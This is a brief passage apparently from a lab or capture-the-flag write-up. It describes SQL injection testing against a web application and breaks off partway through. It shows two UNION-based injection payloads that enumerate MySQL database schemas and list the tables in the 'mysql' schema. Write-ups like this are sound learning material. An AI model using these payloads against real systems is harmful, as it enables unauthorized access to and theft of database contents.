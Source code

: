 ![Untitled](images/Untitled%2018.png)

Mmm… not very interesting, `fff` and `ll` are the usernames I used to test the SQLi, and there is no other username there…

Let’s list all databases:

`' UNION SELECT concat(schema_name) FROM information_schema.schemata -- -`

![Untitled](images/Untitled%2019.png)

`' UNION SELECT concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='mysql' -- -`
